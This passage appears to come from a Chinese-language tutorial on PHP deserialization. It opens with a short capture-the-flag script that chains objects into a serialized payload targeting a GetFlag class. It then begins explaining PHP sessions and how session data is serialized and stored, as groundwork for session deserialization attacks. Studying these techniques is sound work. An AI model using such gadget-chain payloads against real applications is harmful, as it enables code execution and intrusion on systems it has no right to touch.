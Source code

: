 ```php

class Call {
    public $mod1;//funct
}

class start_gg {
    public $mod1;
}

$s1 = new string1();
$s1->str1 = new GetFlag();
$f = new func();
$f->mod1 = $s1;
$fu = new funct();
$fu->mod1 = $f;
$c = new Call();
$c->mod1 = $fu;
$st = new start_gg();
$st->mod1=$c;
echo serialize($st);
```

# PHP Session反序列化漏洞

## 什么是PHP Session

### 什么是session

`session`在计算机网络应用中称为`会话控制`。创建于服务器端，保存于服务器。`session`对象存储特定用户所需的属性及配置信息。简单来说就是一种客户与服务器更为安全的对话方式。一旦开启了`session`会话，便可以在网站的任何页面使用或保持这个会话，从而让访问者与网站之间建议一种`对话机制`

### 什么是PHP Session

`PHP session`可以看作是一个特殊的变量，且该变量适用于存储关于用户的会话信息，或者更改用户会话的设置，需要注意的是，`PHP session`变量存储单一用户的信息，并且对于应用程序中的所有页面都是可用的，且对应的具体`session`值会存储于服务器端，这也是与`cookie`的主要区别，所以`session`的安全性相对较高

## PHP Session工作流程

当开始一个会话时，PHP会尝试从请求中查找会话ID，通常是使用`cookie`，如果请求包中未发现`session id`，PHP就会自动调用`php_session_create_id`函数创建一个新的会话，并且在响应包头中通过`set-cookie`参数发给客户端保存

当客户端`cookie`被禁用的情况下，PHP会自动将`session id`添加到`url参数`、`form`、`hidden`字段中，但这需要`php.ini`中的`session.use_trans_sid`设为开启，也可以在运行时调用`ini_set()`函数来设置这个配置项

PHP session会话开始之后，PHP就会将会话中的数据设置到`$_SESSION`变量中，当PHP停止运行时，它会自动读取`$_SESSION`中的内容，并将其进行`序列化`，然后发送给会话保存管理器来进行保存。默认情况下，PHP使用内置的文件会话保存管理器来完成`session`的保存，也可以通过配置项`session.save_handler`来修改所要采用的会话保存管理器。对于文件会话保存管理器，会将会话数据保存到配置项`session.save_path`所指定的位置

<hr>

会话开始之后，`PHP` 就会将会话中的数据设置到 `$_SESSION` 变量中，如下述代码就是一个在 `$_SESSION` 变量中注册变量的例子：
